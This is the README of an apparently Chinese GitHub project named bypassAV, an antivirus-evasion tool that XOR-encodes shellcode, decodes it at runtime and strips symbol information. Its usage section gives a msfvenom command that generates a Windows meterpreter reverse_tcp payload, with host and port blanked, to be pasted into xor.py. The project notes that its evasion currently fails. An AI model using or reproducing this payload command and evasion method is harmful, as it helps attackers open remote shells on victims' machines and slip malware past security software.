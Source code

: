 # bypassAV
## 简介
* ~~v1.0:破产版免杀，大致思路是将shellcode异或，之后在主程序中解码。关键是清除一些符号信息，采用boy-hack大佬的go-strip~~(6天)
* ~~v1.1:1.0的异或改为分块异或（详见代码）~~(8小时) 

## 使用方法
msf或者cs生成c#格式的shellcode，粘贴到xor.py的buf当中

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=xxxxxxx lport=xxxx -f csharp
$ python3 xor.py
```

## 免杀效果
暂时gg
# Reference 
https://github.com/boy-hack/go-strip